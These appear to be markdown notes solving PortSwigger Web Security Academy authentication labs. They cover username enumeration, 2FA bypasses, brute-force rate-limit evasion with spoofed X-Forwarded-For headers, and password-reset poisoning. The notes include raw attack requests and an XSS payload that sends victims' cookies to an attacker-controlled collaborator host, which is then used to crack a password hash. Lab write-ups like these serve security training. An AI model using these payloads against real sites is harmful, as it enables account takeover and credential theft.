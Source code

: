 # Authentication vulnerabilities

## Username enumeration via different responses

Use Intruder with username and pw as sniper targets

## 2FA simple bypass

1. Login as `wiener:peter`
1. Use portswigger e-mail to login with 2FA
1. capture e-mail change request into repeater
1. logout
1. login as `carlos:montoya`
1. copy session token from the new session
1. insert session token in the prev. captured request to change the e-mail
1. insert wrong code and login again as carlos
1. recieve 2FA code via e-mail
1. ???
1. Profit

##  Password reset broken logic

The `temp-forgot-password` parameter is not checked, so we can just send a
request in carlos' name

``` 
POST /forgot-password/?temp-forgot-password-token HTTP/2
Host: 0a3c00e903fa9e9980fe764f00c60058.web-security-academy.net
Cookie: session=ET1xcusj0lhDr3wWMSd1qCOcQLItAXnW
[...]

temp-forgot-password-token&username=carlos&new-password-1=bla&new-password-2=bla
```

## Username enumeration via response timing

- Login takes longer for valid users.
- there is a Brute force prevention in place.
  - `X-Forwarded-For:§1§` header can be used to evade this.

Use Intruder with Pitchfork:

- **Parameter 1 `X-Forwarded-For:§1§`**: Numbers 1-100
- **Parameter 2 `Username=§2§`**: Username list

We find that `ec2-user` is valid. Now we can do the same again with the PW list.

Final Payload:

```
POST /login HTTP/2
Host: 0a7e00bc04419db78499a2da00be0045.web-security-academy.net
Cookie: session=4MtRH2xLQGE0NrFKaQvHcOVy38p2Fdx0
X-Forwarded-For:§1§

username=ec2-user&password=§dadadaaaaaaaaaaaaaaaaaaaaaa1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111a
```

## Broken brute-force protection, IP block

The flaw in this Lab is that the request counter gets reset after each
successful login. --> We can test one combination and then login with the
provided credentials.

Prepare two lists

- **Users:** `carlos` and `wiener` turn by turn (100x)
- **Passwords:** `entry from PW list` and `peter` switching each time.

How to do that quickly in vim:

```
# Userlist
100i carlos<CR>wiener<ESC>
:%y+

# Within PW list
gg
qq
o peter<ESC>j
q
200@q
:%y+
```

In the Intruder Settings set the max concurrent Payloads to 1 and a delay of  
`300 ms`.

## Username enumeration via account lock

1. Try to brute force Usernames 3 times
1. One response has a longer length.
  - Error Message: `You have made too many incorrect login attempts. Please try again in 1 minute(s).`
  - --> We have our user
1. Try PW Brute force using `X-Forwarded-For` Header

```
X-Forwarded-For: §1§

username=accounting&password=§bla§
```

It seems that the lock has no effect if the real credentials are supplied.
The answer with the smallest response contains the valid credentials.

![no-lock](img/no-lock.png)

## 2FA broken logic

Brute force in order:

1. PW
2. 2FA code (using the `session` and `verify` cookie values from carlos)

```
mfa-code=§1111§
```

Intruder > Sniper: Set payload from 0000 to 9999 with 1 as step.


## Offline password cracking

Place XSS in comments of posts

```
<img src=x onerror=this.src='http://<BURP-COLLAB-URL>/?'+document.cookie;>
```

Look for an answer from carlos:

```
GET /?secret=xHtfxrM68cuhFuEY30ETrSrX0eAp9hrR;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1

# stay loggen loggen in decode:
carlos:26323c16d5f4dabff3bb136f2460a943
```

Use <https://crackstation.net/> to check the hash.  --> `onceuponatime` (md5)


## Password reset poisoning via middleware

In this lab we can manipulate the `X-Forwarded-Host` header to generate password 
reset links for a host we control.

1. Repeater for the `POST /forgot-password` request
1. set username to carlos
1. add `X-Forwarded-Host: exploit-0a2f00cd041f7e3f823151b001690060.exploit-server.net/exploit`
1. Access the server log
      `GET /exploit/forgot-password?temp-forgot-password-token=SOEFGdL2dqdeCXu0xrqN2ndOQwXSGwnp HTTP/1.1`
